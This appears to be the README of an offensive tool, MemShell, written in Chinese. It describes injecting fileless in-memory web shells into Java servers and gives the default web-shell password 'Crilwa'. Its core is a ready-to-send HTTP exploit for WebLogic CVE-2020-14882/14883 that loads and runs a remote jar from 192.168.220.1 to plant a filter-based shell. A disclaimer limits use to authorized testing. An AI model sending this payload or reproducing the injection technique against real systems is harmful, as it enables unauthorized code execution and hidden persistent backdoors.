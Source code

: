 # MemShell
## 免责声明

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

## 使用场景

冰蝎和蚁剑默认密码`Crilwa`

1. 代码执行，例如可以调用`URLClassLoader`远程加载类，便可以无文件落地注入内存马。
2. JavaAgent注入（需要文件落地） //TODO

### CVE-2020-14882&CVE-2020-14883

例如下面的payload，可以进行代码执行，加载远程恶意代码。

```http
GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});u.loadClass("Inject.WeblogicInjectFilterShell").newInstance(); u.close();"); HTTP/1.1
```

![](D:\blog\github\MemShell\images\B5RFR1$H]VU@5{(@)]8}30B.png)

![image-20230301151252935](images/image-20230301151252935.png)

